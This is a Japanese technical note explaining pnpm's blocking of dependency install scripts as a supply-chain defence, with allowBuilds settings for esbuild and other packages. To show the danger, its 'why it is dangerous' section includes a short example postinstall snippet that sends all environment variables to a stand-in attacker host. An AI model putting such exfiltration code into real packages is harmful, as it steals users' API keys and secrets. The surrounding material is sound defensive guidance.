

# pnpm（ピーエヌピーエム）のビルドスクリプト制限

## 概要

pnpm v9 以降、依存パッケージの `postinstall` などのライフサイクルスクリプトがデフォルトでブロックされる。
サプライチェーン攻撃対策として導入された機能。

## ライフサイクルスクリプトとは

npm パッケージは `package.json` にライフサイクルスクリプトを定義できる：

```json
{
  "scripts": {
    "preinstall": "echo 'インストール前'",
    "postinstall": "echo 'インストール後'",
    "prepare": "echo 'パッケージ準備時'"
  }
}
```

| スクリプト | 実行タイミング |
|-----------|---------------|
| `preinstall` | パッケージのインストール前 |
| `postinstall` | パッケージのインストール後 |
| `prepare` | パッケージの公開前、または `npm install` 後 |

これらは `npm install` / `pnpm install` 時に**自動実行**される。

## なぜ危険か

`postinstall` は任意のコードを実行できるため、サプライチェーン攻撃のベクターになりうる：

```javascript
// 悪意あるパッケージの postinstall
const env = process.env;
fetch('https://evil.com/steal', {
  method: 'POST',
  body: JSON.stringify(env)  // 環境変数（API キー等）を窃取
});
```

実際の攻撃事例:
- 2021年: `ua-parser-js` がハイジャックされ、暗号通貨マイナーが仕込まれた
- 2022年: `node-ipc` が意図的に破壊的コードを含んだ

## pnpm v9 の対策

pnpm v9 以降、依存パッケージのビルドスクリプトはデフォルトで**ブロック**される。

```
$ pnpm install

│ Ignored build scripts: esbuild@0.27.2.
│ Run "pnpm approve-builds" to pick which dependencies should be allowed to run scripts.
```

### 設定方法（pnpm v11 以降）

pnpm v11 で 2 つの変更が入った：

1. `package.json` の `pnpm` フィールドが読まれなくなった（設定の新しい置き場所は `pnpm-workspace.yaml`）
2. ビルドスクリプトを持つ依存が未判定のままだと、警告ではなく**インストールがエラー**になる（`ERR_PNPM_IGNORED_BUILDS`）。判定を促すテンプレートが `pnpm-workspace.yaml` に自動生成される

設定は `pnpm-workspace.yaml` の `allowBuilds` に、パッケージごとの true/false で明示する：

```yaml
# pnpm-workspace.yaml
allowBuilds:
  esbuild: false # スクリプトを実行しない
```

`pnpm approve-builds` を実行すると、対話形式で許可/拒否を選択して同ファイルに保存できる。

| 設定値 | 説明 |
|--------|------|
| `false` | スクリプトを実行しない（エラーも警告も出ない） |
| `true` | スクリプトの実行を許可する（信頼できるパッケージのみ） |

v10 以前の `neverBuiltDependencies` / `onlyBuiltDependencies`（package.json の `pnpm` フィールド）は廃止された。`overrides` も同様に `pnpm-workspace.yaml` へ移動した。

## esbuild の場合

esbuild は Go 言語で書かれたネイティブバイナリ。`postinstall` で OS/アーキテクチャに応じたバイナリをダウンロードする。



### ignored でも動作する理由

esbuild は `optionalDependencies` としてプラットフォーム固有のパッケージを持つ：

```json
{
  "optionalDependencies": {
    "@esbuild/linux-x64": "0.27.2",
    "@esbuild/darwin-arm64": "0.27.2"
  }
}
```

pnpm は `postinstall` を実行しなくても、適切なオプショナル依存関係を解決してバイナリを取得できる。
そのため `allowBuilds: esbuild: false` で問題なく動作する。

補足: Vite 8（rolldown ベース）では esbuild はオプショナル peer 依存になったため、依存グラフ自体に現れないことがある。

## 設定の選択基準

判断のポイント:
1. まず `false`（実行しない）で試す
2. 動作しなければ `true` に変更
3. `true` にする場合、パッケージの信頼性を確認

## プロジェクトでの運用

各パッケージルートの `pnpm-workspace.yaml` で設定する：

```yaml
# frontend/pnpm-workspace.yaml — esbuild のスクリプトを拒否
allowBuilds:
  esbuild: false
```

```yaml
# pnpm-workspace.yaml（リポジトリルート）— redocly / jscpd の推移的依存を拒否
allowBuilds:
  core-js: false
  protobufjs: false
```

理由:
- いずれもビルドスクリプトなしで動作する（core-js の postinstall は寄付案内の表示のみ）
- 不要なスクリプト実行を避ける（サプライチェーン攻撃面の最小化）

注意: リポジトリルートに `pnpm-workspace.yaml` を置くと、独自の `pnpm-workspace.yaml` を持たないサブディレクトリはルートのワークスペースに取り込まれる。`frontend/` が独立プロジェクトとして動作するのは `frontend/pnpm-workspace.yaml` が存在するため。

## 関連リソース

- [pnpm: Settings](https://pnpm.io/settings)
- [pnpm v9 リリースノート](https://github.com/pnpm/pnpm/releases/tag/v9.0.0)

---

## 変更履歴

| 日付 | 変更内容 |
|------|---------|
| 2026-01-19 | 初版作成 |
| 2026-07-19 | pnpm v11 対応（`allowBuilds` への移行、`pnpm-workspace.yaml` への設定移動） |
